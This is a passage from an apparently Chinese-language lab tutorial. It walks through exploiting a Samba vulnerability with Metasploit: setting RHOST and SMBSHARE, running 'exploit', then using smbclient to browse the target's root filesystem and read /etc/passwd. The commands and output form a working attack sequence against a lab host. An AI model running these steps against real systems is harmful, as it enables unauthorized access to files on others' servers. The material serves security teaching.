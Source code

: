 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480572977733.png-wm)



输入命令，设置必要参数：

```
# 设置攻击主机

set RHOST 192.168.122.102

# 选择共享目录

set SMBSHARE tmp

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480573418642.png-wm)

注意：再次提醒一下，Samba 的该漏洞危害是能够为选定的 Unix 目录（包括所有子目录）创建网络共享。

## 四、漏洞攻击

在各项参数设定完成之后，我们进行漏洞攻击：

```
# 进行漏洞攻击，samba 的该漏洞是创建网络共享

exploit 
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480573539217.png-wm)

其中如下信息，表示进入成功：

```
[*] 192.168.122.102:445 - Now access the following share to browse the root filesystem:

```
在成功之后，输入退出命令 `exit`，我们在终端中进行测试是否能够利用 `smbclient `进行连接，在连接之后，会出现输入密码，无需输入，按回车键即可：

```
exit 

smbclient //192.168.122.102/tmp
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480573933783.png-wm)

```
cd rootfs

cd etc

more passwd

```
即可看到 `/etc/passwd` 文件内容：
